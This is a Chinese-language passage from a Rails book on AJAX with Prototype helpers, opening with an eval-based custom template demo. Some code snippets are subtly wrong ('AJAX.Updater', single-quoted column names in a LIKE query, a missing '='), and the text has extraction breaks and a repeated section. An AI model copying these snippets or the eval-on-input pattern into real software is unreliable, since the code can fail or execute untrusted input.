rhtml 和 rxml 模板与控制器共享它们的环境——它们可以访问控制器的实例变量。如果它们作为局部模板调用，也可以接收局部变量。我们可以赋予我们自己的模板相同的权限。如何实现取决于你希望模板做什么。这里我们将构建一些相当人为的东西：一个包含 Ruby 代码行的 eval 模板。渲染时，每一行都会被显示出来，并附带其值。下一页的代码展示了一个名为 test.revl 的模板。

```
a = 1
3 + a
@request.path
```

这可能会产生如下输出：

```
a = 1  => 1
3 + a  => 4
@request.path => /text/example1
```

注意模板如何访问 @request 变量。我们通过创建一个 Ruby 绑定（本质上是一个变量值的作用域）并用控制器设置到视图中的实例变量和局部变量的值填充它来实现这个小技巧。注意渲染器还将响应内容类型设置为 text/plain；我们不希望我们的结果被解释为 HTML。我们也可以定义一个名为 request 的访问器方法，这将使我们的模板处理器更像 Rails 内置的。

```ruby
class EvalTemplate
  def initialize(view)
    @view = view
  end

  def render(template, assigns)
    # 创建一个匿名对象并获取其绑定
    env = Object.new
    bind = env.send(:binding)

    # 添加视图中的实例变量
    @view.assigns.each do |key, value|
      env.instance_variable_set("@#{key}", value)
    end

    # 如果我们是局部模板，则添加局部变量
    assigns.each do |key, value|
      eval("#{key} = #{value}", bind)
    end

    @view.controller.headers["Content-Type"] ||= 'text/plain'

    # 评估每一行并显示原始内容及其值
    template.split(/\n/).map do |line|
      line + " => " + eval(line, bind).to_s
    end.join("\n")
  end
end
```

本章由 Justin Gehtland（[http://relevancellc.com](http://relevancellc.com)）撰写，他是一位软件开发者、演讲者和作家，居住在北卡罗来纳州达勒姆。他是 Streamlined 项目的创始人之一，该项目致力于 Rails 上的高级 CRUD 应用程序（[http://streamlinedframework.org](http://streamlinedframework.org)）。本文基于他和同样来自 Relevance 的 Stuart Halloway 为 RailsConf '06 所做的工作。

# 第 23 章

## Web，V2.0

我们已经了解了 Action View 如何用于向浏览器渲染模板。我们看到了如何通过布局和局部模板的组合来创建页面；大多数时候，我们的 action 向浏览器返回整个页面，强制浏览器刷新当前屏幕。这是 Web 的一个核心基础原则：对服务器的请求返回整个页面，浏览器必须完整显示它们。本章将讨论打破这个核心原则，允许你的应用程序处理更小的粒度单位，在浏览器和服务器之间传输数据、部分页面和代码，以提供更具响应性和交互性的用户体验。

Rails 的 AJAX 支持可以分为三个主要领域：

- Prototype 支持 DOM 交互和远程对象调用
- Script.aculo.us 支持视觉效果
- RJS 模板用于代码中心的 AJAX

对于前两个，我们需要记住我们关于 helpers 所学到的所有知识，因为对 Prototype 和 Script.aculo.us 的几乎所有支持都存在于 `ActionPack::Helpers::PrototypeHelper` 和 `ActionPack::Helpers::ScriptaculousHelper` 中。另一方面，RJS 模板是一个完全不同的东西，它结合了 Action View 模板的一点皮毛和一种全新的调用 `render` 的方式。

### 23.1 Prototype

Prototype 是一个由 Sam Stephenson 编写的开源 JavaScript 框架，主要存在是为了简化 JavaScript 中的两个任务：

- 使用 XMLHttpRequest（及其同类）进行 AJAX 调用
- 与页面 DOM 交互

AJAX 是关于背着浏览器做事的。浏览器就像训练有素的猴子：发起请求，重新加载页面。提交表单，重新加载页面。如果你


浏览器只会用收到的内容刷新页面作为响应。

上世纪90年代，微软随其XML库发布了一个名为`XMLHTTP`的ActiveX控件。你可以用JavaScript创建它，并利用它在不修改地址栏或强制标准请求的情况下向服务器发送XML。`XMLHTTP`对象会接收（并解析）来自服务器的HTTP响应，然后通过回调函数回调你的JavaScript。此时，你就可以使用该响应了。几年后，Mozilla团队创建了该对象的开源版本，称为`XMLHttpRequest`。使用`XMLHttpRequest`（简称XHR），你可以向服务器发送请求，然后自行决定如何处理响应。更妙的是，请求可以异步发送，这意味着在请求被处理的同时，页面的其余部分仍然可供用户使用和交互。

编写利用XHR进行异步请求的JavaScript代码并非难事，但它重复、枯燥，且容易犯简单（但代价高昂）的错误。Prototype库对XHR进行了封装，使其更易于使用且更加万无一失。不过，Prototype仍然是一个JavaScript库。Rails的关键特性之一是其集成的开发栈，这允许你在Web应用的整个开发过程中使用Ruby。如果你不得不切换到JavaScript，就会破坏这种干净的集成。

答案自然是使用助手，特别是`PrototypeHelper`类（位于`ActionPack::Helpers`中）。这些助手通过简单的Ruby方法封装了复杂JavaScript的生成。这些助手最棘手的部分是它们接受各种各样的选项作为参数。

#### 搜索示例

让我们使用Rails的Prototype助手，为现有的脚手架快速添加AJAX功能。下面的代码展示了一个标准外观的脚手架，围绕一个名为`users`的表构建。该表存储了程序员列表及其喜爱的编程语言。该页面的标准静态版本使用RHTML模板和RHTML局部视图来创建页面。

```
Download pragforms/app/views/user/list.rhtml
<h1>Listing users</h1>
<% render :partial => "search"%>
```

```
Download pragforms/app/views/user/_search.rhtml
<table>
  <tr>
    <th>Username</th>
    <th>Favorite Language</th>
  </tr>
  <% for user in @users %>
  <tr>
    <td><%=h user.username %></td>
    <td><%=h user.favorite_language %></td>
    <td><%= link_to 'Show', :action => 'show', :id => user %></td>
    <td><%= link_to 'Edit', :action => 'edit', :id => user %></td>
    <td><%= link_to 'Destroy', { :action => 'destroy', :id => user },
            :confirm => 'Are you sure?', :method => :post %></td>
  </tr>
  <% end %>
</table>
```

```
<%= link_to 'Previous page',
  { :page => @user_pages.current.previous } if @user_pages.current.previous %>
<%= link_to 'Next page',
  { :page => @user_pages.current.next } if @user_pages.current.next %>
```

```
<br />
```

```
<%= link_to 'New user', :action => 'new' %>
```

我们希望允许用户通过在文本框中输入内容来筛选当前列表。应用程序应监视该字段的变化，将字段值提交到服务器，并更新列表以仅显示与当前筛选条件匹配的程序员。

与非AJAX页面一样，第一步是添加一个表单来收集用户输入。然而，我们不会添加一个标准表单，而是添加所谓的无操作表单；这是一个本身无法提交到服务器的表单。过去的做法是创建一个`action`属性设置为`#`的表单。这防止了请求被发送到服务器，但它有一个不幸的副作用：会在URL末尾添加`#`字符，从而弄乱地址栏中的URL。现代方法是将`action`设置为`javascript:void(0)`。

```
Download pragforms/app/views/user/search_demo.rhtml
<% form_tag('javascript:void(0)') do %>
```

其次，我们需要将渲染的局部视图包装在一个命名元素中，以便我们可以轻松地用更新的数据替换它。在我们的例子中，我们添加了一个简单的`<div>`标签，`id='ajaxWrapper'`，为我们提供了一个放置新数据的位置。

```
Download pragforms/app/views/user/search_demo.rhtml
<div id='ajaxWrapper'>
<%= render :partial=>'search' %>
</div>
```

第三步是添加JavaScript，以监视文本字段的变化，将值发送到服务器，从服务器获取响应，并更新页面的某些部分以反映新数据。我们可以使用`observe_field`助手方法完成所有这些工作。

> **输入元素与表单**
> 根据W3C HTML 4.01规范，输入元素并不严格要求存在于`<form>`元素内。事实上，规范明确指出，为了使用“内在事件”（onclick、onchange等）构建用户界面，`<form>`并非必需。`<form>`元素的目的是允许浏览器将包含的输入值捆绑成一个请求以POST到服务器。
>
> 然而，无论如何将输入包装在`<form>`中是一个相当好的做法。`<form>`为相关输入字段提供了一个命名作用域，允许你将它们作为一个组来操作（例如，启用或禁用它们所有）。它们还允许你在用户禁用JavaScript时为页面提供后备行为。

```
Download pragforms/app/views/user/search_demo.rhtml

<%= observe_field :search,
                :frequency => 0.5,
                :update     => 'ajaxWrapper',
                :before     => "Element.show('spinner')",
                :complete   => "Element.hide('spinner')",
                :url        => {:action=>'search', :only_path => false},
                :with       => "'search=' + encodeURIComponent(value)" %>
```

在第1行，我们调用助手方法，传入我们要监视的文本字段的ID。没有哪个观察者助手接受多个字段ID；如果你想观察多个字段，可以观察整个表单或创建多个观察者。请注意，就像任何优秀的Rails库一样，我们可以使用ID的符号版本作为参数值。

在第2行，我们设置了观察的频率。这是检查目标字段变化并提交它们的间隔时间（以秒为单位）。值为0意味着字段的变化会立即提交。这似乎是最响应的方式，但你必须考虑带宽使用。如果在用户群相当可观的情况下，每次字段稍有变化就提交数据，会导致类似Slashdot效应的迷你灾难。在我们的示例中，我们选择了0.5秒，这既防止了过多的提交，又不会让用户等待太久才看到结果。

在第3行，我们告诉助手页面上的哪个元素将用服务器返回的数据进行更新。给定这个ID，Prototype会将该元素的innerHTML值设置为响应文本。如果你需要对返回的数据进行更复杂的处理，你可以选择注册一个回调函数，以任何你想要的方式处理数据。在我们的例子中，服务器将返回一个包含与筛选条件匹配的用户的表，我们只需将该数据显示在名为`ajaxWrapper`的元素内即可。

在第4和第5行，我们解决了AJAX的一个主要问题。用户可能会变得焦躁。如果他们点击链接或提交表单，或者做其他事情，唯一能阻止他们漫无目的地猛击链接或按钮的东西，就是浏览器窗口东北角的喷火蜥蜴或旋转地球。这告诉用户有事情正在处理中，需要等待完成。这是每个浏览器内置的功能，用户期望对这种原本透明的过程有这样的通知。

使用XHR时，你必须提供自己的进度指示器。`before`选项接受一个在将请求发送到服务器之前调用的JavaScript函数。在这个例子中，我们使用Prototype的`Element.show`来显示一个在初始化时就已经加载到页面上的图形（但其style属性被设置为`display:none`）。`complete`回调同样在响应完全收到后触发。在这个例子中，我们再次使用`Element.hide`来隐藏进度指示器。还有其他潜在的回调函数钩子，我们将在第531页的23.1节“回调”中讨论。（这个旋转器在哪里？我们稍后就会看到。）

最后，在第6和第7行，我们定义了AJAX调用的目标服务器端点以及要发送的数据。在第6行，我们指定了`url`参数，并告诉它调用当前控制器的`search`操作。发送给`url`的选项与`url_for`助手方法相同。

在第7行，我们使用`with`参数提供了将要发送到服务器的数据。这个参数的值是一个包含一个或多个名称/值对的字符串。仔细查看提供的字符串字面量。

```
'search=' + encodeURIComponent(value)
```

这个字符串是一段可执行的JavaScript代码，当目标字段的值发生变化时将会运行。`encodeURIComponent`是一个JavaScript方法，它接受一个值，并用其UTF-8对应字符转义某些字符，以生成有效的URL组件。在这个例子中，`value`将是目标字段的当前值，结果是一个名称/值对，其中名称是`search`，值是目标字段的UTF-8编码值。

还记得我们用作进度指示器的那个旋转器吗？我们还没有编写显示它的代码。通常你会把它直接放在包含引用它的字段的页面上。结果在我们的示例代码中，我们会在很多地方使用它，所以与其在每个页面上都包含它，我们不如只添加一次，添加到布局文件中。


下载 pragforms/app/views/layouts/user.html

```html
<html>
<head>
  <title>User: <%= controller.action_name %></title>
  <%= stylesheet_link_tag 'scaffold' %>
  <%= javascript_include_tag :defaults %>
</head>
<body>
  <p style="color: green"><%= flash[:notice] %></p>
  <%= image_tag 'loading.gif', :id=>'spinner', :style=>"display:none; float:right;" %>
  <%= yield :layout %>
</body>
</html>
```

当这个模板在浏览器中渲染时，结果将是静态HTML和JavaScript代码的组合。以下是使用`observe_field`辅助方法生成的实际输出。

```html
<input id="search" name="search" type="text" value="" />
<script type="text/javascript">
//<! CDATA [
new Form.Element.Observer('search', 0.5, function(element, value) {
  Element.show('spinner');
  new AJAX.Updater('ajaxWrapper',
    '/user/search',
    { onComplete:function(request){ Element.hide('spinner'); },
      parameters:'search=' + encodeURIComponent(value) }
  )
})
// ] ]>
</script>
```

现在，当用户在文本框中输入时，该字段的值将被发送到User控制器的`search`操作。请记住，因为我们提供了`update`参数，JavaScript代码将获取服务器返回的内容，并将其设置为目标元素的`innerHTML`属性的值。那么`search`操作做什么呢？

下载 pragforms/app/controllers/user_controller.rb

```ruby
def search
  unless params[:search].blank?
    @user_pages, @users = paginate :users,
      :per_page    => 10,
      :order       => order_from_params,
      :conditions => User.conditions_by_like(params[:search])
    logger.info @users.size
  else
    list
  end
  render :partial=>'search', :layout=>false
end
```

如果`search`参数被传递给`search`操作，该操作将基于对数据库的查询执行分页，查找匹配给定参数的项目。

##### conditions_by_like

方法`User.conditions_by_like(params[:search])`不属于Active Record。实际上，它是从Streamlined框架中提取的代码。它提供了一种快速的方法来在模型的所有字段中进行搜索。以下是完整的实现：

下载 pragforms/vendor/plugins/relevance_extensions/lib/active_record_extensions.rb

```ruby
def conditions_by_like(value, *columns)
  columns = self.user_columns if columns.size==0
  columns = columns[0] if columns[0].kind_of?(Array)
  conditions = columns.map {|c|
    c = c.name if c.kind_of? ActiveRecord::ConnectionAdapters::Column
    "'#{c}' LIKE " + ActiveRecord::Base.connection.quote("%#{value}%")
  }.join(" OR ")
end
```

搜索值。否则，该操作调用`list`操作，该操作使用完整的表集填充`@users`和`@user_pages`值。最后，该操作渲染部分视图`_search.rhtml`，它只返回值表，就像非AJAX版本一样。请注意，我们显式地在渲染部分视图时禁用了任何布局。这可以防止递归的布局内嵌布局问题。

##### 使用Prototype辅助方法

Rails提供了一整套Prototype辅助方法库，为你的应用程序提供了各种AJAX解决方案。它们都要求你在页面中包含`prototype.js`文件。Rails随附了该文件的某个版本，你可以使用`javascript_include_tag`辅助方法将其包含在页面中。

```erb
<%= javascript_include_tag "prototype" %>
```

许多应用程序在默认布局中包含Prototype；如果你在整个应用程序中大量使用AJAX，这是有道理的。如果你更关心带宽限制，你可能会选择更谨慎一些，只在需要的页面中包含它。如果你遵循标准的Rails生成器风格，你的`application.rhtml`文件将包含以下声明：

```erb
<%= javascript_include_tag :defaults %>
```

这将包含Prototype、Script.aculo.us以及为特定于应用程序的JavaScript生成的`application.js`文件。无论哪种情况，一旦你的页面包含了Prototype，你就可以使用各种Prototype辅助方法中的任何一个来为页面添加AJAX。

##### 常用选项

在我们研究不同的辅助方法及其用途之前，让我们花一点时间来理解我们可以传递给许多辅助方法的一些常用选项。由于大多数辅助方法生成的代码最终使用XHR调用服务器，因此它们共享许多选项来控制该调用的发出方式以及在调用之前、期间和之后要做什么。

##### 同步性

大多数时候，你会希望你的AJAX调用是异步的。这意味着在请求传输和处理期间，用户可以继续与页面交互，页面中的JavaScript可以继续采取行动。偶尔，你可能会发现你需要同步的AJAX调用（尽管我们强烈建议不要这样做）。如果是这样，你可以传递`:type`选项，它有两个可能的值：`:asynchronous`（默认值）和`:synchronous`。

```erb
<%= link_to_remote "Wait for it...",
    :url => {:action => 'synchronous_action'},
    :update => 'results_div',
    :type => :synchronous %>
```

##### 更新页面

AJAX调用可能导致几种不同类型的响应。服务器可以返回

- **无内容**：服务器响应中没有内容，只有HTTP头信息
- **HTML**：要注入页面的HTML片段
- **数据**：用JavaScript处理的结构化数据（JSON、XML、YAML、CSV等）
- **JavaScript**：要由浏览器执行的代码

如果你的AJAX调用从服务器返回HTML片段，你可以指示大多数Prototype辅助方法使用`:update`选项将此HTML直接注入页面。你可以发送的可能值是

- **一个DOM ID**：页面上一个元素的ID；JavaScript将使用返回的值重置其`innerHTML`属性。

```erb
<%= link_to_remote "Show me the money!",
    :url => {:action => 'get_the_money'},
    :update => 'the-money' %>
```

- **一个哈希**：与调用成功或失败关联的DOM元素的ID。Prototype识别两种状态：成功和失败，其中失败定义为任何HTTP状态码不是"200 Ok"的响应。使用此选项在成功完成时更新目标元素，但在出错时向另一个元素发送警告。

```erb
<%= link_to_remote "Careful, that's dynamite...",
                :url => {:action => 'replace_dynamite_in_fridge'},
                :update => {:success => 'happy', :failure => 'boom'} %>
```

一旦你指定了接收目标元素，你还可以选择提供关于如何更新目标的详细信息。默认情况下，整个`innerHTML`将被服务器的响应替换。但是，如果你传递`:position`选项，你可以告诉JavaScript相对于现有内容插入响应。可能的值是

- `:position => :before` - 在目标元素的开始标签之前插入服务器响应
- `:position => :top` - 在目标元素的开始标签之后插入响应
- `:position => :bottom` - 在目标元素的结束标签之前插入响应
- `:position => :after` - 在目标元素的结束标签之后插入响应

例如，如果你想进行一次调用将项目添加到列表底部，你可以使用

```erb
<% form_remote_tag(:url => {:action => 'add_todo'},
                   :update => 'list',
                   :position => :bottom) do %>
```

使用`:position`选项，你可以向列表添加项目或将它们注入现有数据列，而无需重新渲染原始内容。当你管理列表时，这可以极大地简化服务器端代码。

##### JavaScript过滤器

有时，你会想用一些条件行为来包装AJAX调用。Prototype辅助方法接受四个不同的包装器选项：

- `:confirm => msg` - 在触发XHR调用之前弹出一个JavaScript确认对话框，其文本是分配给此选项的字符串值；如果用户单击“确定”，则调用继续；否则调用被取消。
- `:condition => expression` - 表达式应该是一个求值为布尔值的JavaScript代码片段表达式；如果为true，则XHR调用继续；否则被取消。


##### 回调函数

最后，你可能希望在XHR调用过程中将JavaScript函数与回调通知关联起来。当XHR调用进行时，有六个可能触发回调的节点。你可以将JavaScript函数或任意的JavaScript代码片段附加到这些节点中的任何一个或所有节点。它们分别是：

:loading => *表达式*
    XHR正在从服务器接收数据，但文档尚未准备好使用。

:loaded => *表达式*
    XHR已完成从服务器接收数据。

:interactive => *表达式*
    XHR已完成从服务器接收所有数据并正在解析结果。

:success => *表达式*
    XHR已完成接收和处理数据，并且响应的HTTP状态为“200 Ok”。

:failure => *表达式*
    XHR已完成接收和处理数据，并且响应的HTTP状态不是“200 Ok”。

:complete => *表达式*
    XHR已完成接收和处理数据，并且已调用`:success`或`:failure`中的一个。

通常，你会使用`:success`、`:failure`和`:complete`作为你的AJAX调用的某种try/catch/finally机制。其他回调很少使用。`:interactive`状态旨在让你在数据完全接收之前就开始使用数据，但并非总是为此目的而可用，尤其是在XMLHttpRequest ActiveX控件的早期版本中。

在这个例子中，我们将使用`:success`、`:failure`和`:complete`来实现一个AJAX调用，该调用在开始请求前显示一个加载指示器，将有效的返回值分配给一个在页面上显示它们的函数，在服务器发生错误时调用错误处理函数，并确保在调用完成时加载指示器再次被隐藏。

```
<% form_remote_tag(:url => {:action => 'iffy_function'},
                    :before => "Element.show('spinner');",
                    :success => "show_results(xhr);",
                    :failure => "show_error(xhr);",
                    :complete => "Element.hide('spinner');") do %>
```

`:loading`、`:loaded`和`:interactive`选项很少使用。如果使用它们，几乎总是为了向用户提供动态的进度更新。

你可以将`:success`、`:failure`和`:complete`视为Prototype框架中等同于`begin`、`rescue`和`ensure`的辅助机制。主路径是执行与`:success`关联注册的JavaScript。如果服务器端出现问题，则会调用`:failure`回调。然后，无论服务器端调用成功与否，都会触发`:complete`回调（如果已定义）。这为你提供了一个绝佳的位置来关闭进度指示器、重新启用表单和字段，并通常将页面恢复到就绪状态。

##### Readystate 3 问题

需要额外注意的一个小陷阱是：有时，服务器可以建立所谓的*持久连接*。如果服务器和客户端都能理解HTTP 1.1，并且服务器向客户端发送了Keep-Alive头，只要客户端没有明确拒绝该请求，服务器将建立一个不会终止的连接；除非服务器断开连接或客户端以某种方式中断它，否则readystate将永远停留在3。

除了确保你的Web服务器从不尝试发送Keep-Alive头之外，没有真正的解决方法。如果你不是你Web服务器的管理员，那么你只能祈祷不会遇到这个问题。有关HTTP 1.1和持久连接的更多信息，请参阅[http://www.w3.org/Protocols/rfc2616/rfc2616-sec8.html](http://www.w3.org/Protocols/rfc2616/rfc2616-sec8.html)；有关它们对AJAX的干扰的更多信息，请参阅[http://www.scottandrew.com/blog/archives/2002/12/readystate.html](http://www.scottandrew.com/blog/archives/2002/12/readystate.html)。

##### link_to_remote

最常见的AJAX用途之一是允许用户请求一条新信息以添加到当前页面。例如，你想提供一个链接，允许用户获取其收件箱的当前状态、计算其账户的当前余额，或执行一些其他计算密集型或时间敏感的操作，而你原本并不想在页面初始化时执行这些操作。

因为Web应用程序的用户习惯于使用超链接作为与你的应用程序交互的主要方式，所以使用超链接来提供此行为是有意义的。通常，你的初始化页面会渲染该链接，并且还会渲染一个空的或不可见的容器元素（通常是`<div>`，但可以是任何带有id的元素）。

以让用户检查其收件箱状态为例，你可能会提供一个空的`<div>`来容纳数据，以及一个用于收集数据并更新页面的链接。

```
<div id="inbox_status">Unknown</div>
<%= link_to_remote 'Check Status...',
    :url => {:action => 'get_inbox_status', :user_id => @user.id},
:update => 'inbox_status' %>
```

在这个例子中，链接的文本将是“Check Status....”，它将调用当前控制器的`get_inbox_status`方法，并传递当前用户的id。结果将被注入到`inbox_status`这个`<div>`中。

我们之前介绍的所有常用选项都可用于`link_to_remote`。看这个更详细的例子。

```
<div id="inbox_status">Unknown</div>
<%= link_to_remote 'Check Status...',
    :url => {:action => 'get_inbox_status', :user_id => @user.id},
    :update => 'inbox_status',
    :condition => "$('inbox_status').innerHTML == 'Unknown'",
    :before => "Element.show('progress_indicator')",
    :complete => "Element.hide('progress_indicator')" %>
```

这个版本仅在目标元素的当前值为“Unknown”时才会触发XHR请求，从而防止用户重复请求数据。它使用`:before`和`:complete`选项来开启和关闭进度指示。

##### periodically_call_remote

你可能不想依赖用户发起远程调用，而是希望定期调用服务器以检查是否有变更。例如，在一个Web-（原文此处不完整）

##### 在IE中更新innerHTML

你可以使用AJAX来更新页面中几乎任何元素的内容。这个规则的主要例外是Internet Explorer中的任何与表格相关的元素。问题在于表格元素在IE中是非标准的，并且不支持innerHTML属性。在IE中将`<tr>`、`<td>`、`<tbody>`或`<thead>`的id指定为`:update`值，将导致JavaScript错误、未定义（且不可接受）的行为（如将新内容丢弃在页面底部），或者最糟糕的是，完全没有任何反应。

有三种解决方法。首先，你可以完全避免使用表格。这对许多人来说是不可接受的，因为表格是应用程序中表示数据的首选方式。其次，你可以在表格元素内添加其他命名元素。例如：

```
<table>
  <tr>
    <td>Username</td>
    <td><div id="replace_me_with_ajax">Unknown</div></td>
  </tr>
</table>
```

这第二种方法只要目标元素完全包含在外层元素内，并且不包含任何其他表格元素，就可以工作。例如，虽然前面的代码可以工作，但下面的代码则不行。

```
<table>
  <tbody>
    <div id="ajax_rows">
    </div>
  </tbody>
</table>
```

你渲染到`ajax_rows`中的表格行将显示在页面上，但可能包含也可能不包含在预期的父表格中。

你的第三个选项是使用最新版本的Prototype。这个版本会检查当前浏览器是否是IE，以及目标元素是否是`<tbody>`、`<thead>`、`<tr>`或`<td>`。如果是，它会剥离表格并动态重建它，从而让你看起来像是原地更新了表格。


##### 周期性调用远程方法

在基于聊天的应用程序中，你可能需要每隔几秒钟向服务器询问是否有新的聊天消息到达。这是一种常见的分布式状态检查方式，也是真实“推送”通信技术的替代品。

`periodically_call_remote` 方法可以为你处理这个任务。它的工作方式与 `link_to_remote` 几乎完全相同，只不过它不接受用作链接文本的字符串值，而是接受一个间隔值，该值告诉它两次向服务器发起请求之间需要间隔多长时间。让我们修改前面的示例，以每 60 秒显示一次用户收件箱状态。

```html
<div id="inbox_status">Unknown</div>
<%= periodically_call_remote    :url => {:action => 'get_inbox_status', :user_id => @user.id},
        :update => 'inbox_status',
        :frequency => 60,
        :condition => "$('inbox_status').innerHTML == 'Unknown'",
        :before => "Element.show('progress_indicator')",
        :complete => "Element.hide('progress_indicator')" %>
```

`periodically_call_remote` 接受与 `link_to_remote` 相同的选项（以及 `:frequency` 选项）。这意味着你可以为 `:confirm` 选项提供一个值。这里要非常小心。不仅一个模态对话框会弹出，要求用户批准一个原本完全透明的事件，而且当对话框显示在屏幕上时，管理 `periodically_call_remote` 的计时器仍在继续计时并不断触发确认请求。这意味着你很容易陷入确认对话框堆积的情况，每次你点击确定或取消，对话框消失后立即被另一个替换。

##### 链接到函数

虽然 `link_to_function` 严格来说不是一个 Prototype 辅助方法，但它是标准 Rails 辅助库中常用的 AJAX 启用辅助方法。它允许你提供链接文本和一个当链接被点击时执行的 JavaScript 代码片段。它不接受我们之前研究过的所有花哨选项；相反，你可以传递更标准的 `link_to` 辅助方法所接受的各种 HTML 选项。

`link_to_function` 允许你创建任意链接来调用客户端函数。JavaScript 并不一定仅限于客户端活动。你也可以提供调用 XHR 的 JavaScript 代码片段。这个辅助方法（以及它的类似伙伴 `button_to_function`）用于创建比通过常见 Prototype 辅助方法和选项所能表达的更定制化的交互模型。

例如，你可能正在使用 Sébastien Gruhier 开发的优秀的 Prototype Window Class 框架（http://prototype-window.xilinus.com/）。它建立在 Prototype 和 Script.aculo.us 之上，这个框架允许你在应用程序内部创建仅 JavaScript 的窗口。你可能想创建一个链接来启动一个 Prototype 窗口，以显示应用程序的“关于”信息。

```erb
<%= link_to_function "About...",
        "Dialog.alert({url: 'about.html', options: {method: 'get'}},
                      {windowParameters: {className: 'default'},
                       okLabel: 'Close'});" %>
```

##### 远程函数

事实证明，前面描述的所有 Prototype 辅助方法都使用了另一个 Prototype 辅助方法 `remote_function` 来实际生成 XHR 调用。如果你想将 XHR 调用嵌入到链接和周期性执行器之外的其他上下文中，你可以自己使用这个辅助方法。

假设你的用户已经检查了收件箱状态，并希望查看消息。一个标准的界面可能是显示一个消息主题列表，然后允许用户选择一个来查看。然而，你知道你的用户习惯于胖客户端邮件界面，标准交互是双击电子邮件主题来查看消息。你想提供相同的功能，但你需要向服务器发起一个 XHR 调用来获取特定的电子邮件。这个示例是你可能会用来渲染列表的局部视图。

```erb
<table>
  <% for email in @emails %>
  <tr ondblclick="<%= remote_function(:update => 'email_body',
                                      :url => {:action => 'get_email',
                                               :id => email})%>">
    <td><%= email.id %></td><td><%= email.body %></td>
  </tr>
  <% end %>
</table>
<div id="email_body"/>
```

这注入了进行 XHR 调用、获取响应并替换 email_body 内容所需的 JavaScript 代码。`remote_function` 接受前面描述的所有标准选项。

##### 观察字段

本章的第一个示例展示了 `observe_field` 的使用。通常，这个辅助方法将 `remote_function` 绑定到目标字段的 `onchange` 事件上，并具有与其他类型远程函数相同的所有含义和选项。

##### 观察表单

有时，你不仅仅对某个特定字段的变化感兴趣。相反，你正在监控一组相关字段中任何字段的变化。处理这种情况的最佳方法不是为每个字段调用单独的 `observe_field` 辅助方法，而是将这些字段包裹在 `<form>` 中并观察整个表单。`observe_form` 辅助方法随后将一个观察者绑定到表单中所有字段的 `change` 事件。

与 `observe_field` 不同，你不需要为 `observe_form` 指定 `:with` 选项。`:with` 的默认值是被观察的 `<form>` 的序列化版本。Prototype 自带一个辅助函数（`Form.serialize`），它遍历表单中包含的所有字段，并创建与浏览器直接提交表单时会创建的相同名称/值对集合。

##### 远程表单标签和远程表单

大多数时候，如果你使用表单来收集用户输入，但希望通过 AJAX 将其发送到服务器，你将不会使用 `observe_form`。用户与表单交互的方式越多，你就越不可能想使用观察器来发布变化，因为这会导致带宽和可用性问题。相反，你需要一个收集用户输入，然后使用 AJAX 将其发送到服务器的表单，而不是标准的 POST。

`form_remote_tag` 创建一个标准的表单标签，但为 `onsubmit` 方法添加了一个处理程序。`onsubmit` 处理程序覆盖了默认的提交行为，并将其替换为远程函数调用。该辅助方法接受所有标准选项，但也接受 `:html` 选项，该选项允许你指定一个备用 URL，以便在 AJAX（即 JavaScript）不可用时使用。这是提供可降级体验的一种简单方法，我们将在第 539 页第 23.1 节“可降级性和服务器端结构”中进一步讨论。

这是一个简单的远程表单，允许用户创建电子邮件消息：提供了发件人、收件人和正文字段。当用户提交表单时，电子邮件数据被发送到服务器，并且 UI 中的表单被服务器返回的状态消息替换。

```erb
<div id="email_form">
  <%= form_remote_tag(:url => {:action => 'send_email'}, :update => 'email_form') do %>
    To:    <%= text_field 'email', 'to'    %><br/>
    From:  <%= text_field 'email', 'from'  %><br/>
    Body:  <%= text_area   'email', 'body'  %><br/>
    <%= submit_tag 'Send Email' %>
  <% end %>
</div>
```

这是生成的页面。

```html
<div id="email_form">
  <form action="/user/send_email"  method="post"
        onsubmit="new AJAX.Updater('email_form',
                                   '/user/send_email',
                                   {asynchronous:true, evalScripts:true,
                                    parameters:Form.serialize(this)});
                 return false;">
</div>
```

```html
To: <input id="email_to" name="email[to]" size="30" type="text" /><br/>
From: <input id="email_from" name="email[from]" size="30" type="text" /><br/>
Body: <textarea cols="40" id="email_body" name="email[body]" rows="20"></textarea><br/>
<input name="commit" type="submit" value="Send Email" />
</form>
</div>
```

请注意，`onsubmit` 的值实际上是两条 JavaScript 命令。第一条创建 `AJAX.Updater`，它发送 XHR 请求并用响应更新页面。第二条从处理程序返回 false。这就是阻止表单通过非 AJAX 的 POST 方式提交的原因。没有这个返回值，表单将同时通过 AJAX 调用和常规 POST 提交，这将导致两封相同的电子邮件到达收件人，如果消息正文是“请从我的账户中扣除 1000.00 美元”，这可能会造成灾难性后果。

辅助方法 `remote_form_for` 的工作方式与 `form_remote_tag` 完全相同，只是它允许你使用更新的 `form_for` 语法来定义表单元素。你可以在第 483 页第 22.5 节“包装模型对象的表单”中阅读有关此替代语法的更多信息。

##### 提交到远程

最后，你可能会遇到一个生成的表单，由于某种原因，你无法将其修改为远程表单。可能是其他部门或团队负责那段代码，你没有权限更改它，或者你绝对无法将 JavaScript 绑定到 `onsubmit` 事件。在这些情况下，替代策略是向表单添加一个 `submit_to_remote`。

这个辅助方法在表单内创建一个按钮，当点击时，它会序列化表单数据并将其发布到通过辅助方法选项指定的目标。它不影响包含表单，也不会干扰已经与表单关联的任何 `<submit>` 按钮。相反，它创建一个表单的子 `<button>`，并将一个远程调用绑定到 `onclick` 处理程序，该处理程序序列化包含表单并将其用作远程函数的 `:with` 选项。

在这里，我们使用 `submit_to_remote` 重写了电子邮件提交表单。前两个参数是按钮的 name 和 value 属性。

```erb
<div id="email_form">
  <% form_tag :action => 'send_email_without_ajax' do %>
    To: <%= text_field 'email', 'to' %><br/>
    From: <%= text_field 'email', 'from' %><br/>
    Body: <%= text_area 'email', 'body' %><br/>
    <%= submit_to_remote 'Send Email', 'send',
        :url => {:action => 'send_email'},
        :update => 'email_form' %>
  <% end %>
</div>
```

这就是生成的HTML代码。

```
<div id="email_form">
  <form action="/user/send_email_without_ajax" method="post">
    To: <input id="email_to" name="email[to]" size="30" type="text" /><br/>
    From: <input id="email_from" name="email[from]" size="30" type="text" /><br/>
    Body: <textarea cols="40" id="email_body" name="email[body]" rows="20"></textarea><br/>
    <input name="Send Email" type="button" value="send"
           onclick="new AJAX.Updater('email_form', '/user/send_email',
                                     {asynchronous:true, evalScripts:true,
                                      parameters:Form.serialize(this.form)});
                   return false;"  />
  </form>
</div>
```

需要提前警告：前面的示例在不同浏览器中的行为并不一致。例如，在Firefox 1.5中，提交该表单的唯一方法是点击AJAX提交按钮。然而，在Safari中，如果焦点位于两个常规文本输入框（`email_to`和`email_from`）中的任何一个上，按下回车键实际上会以传统方式提交表单。如果你真的希望确保在JavaScript被禁用时表单只能通过常规POST方式提交，你就必须添加一个`onsubmit`处理程序，让它直接返回`false`。

```
<div id="email_form">
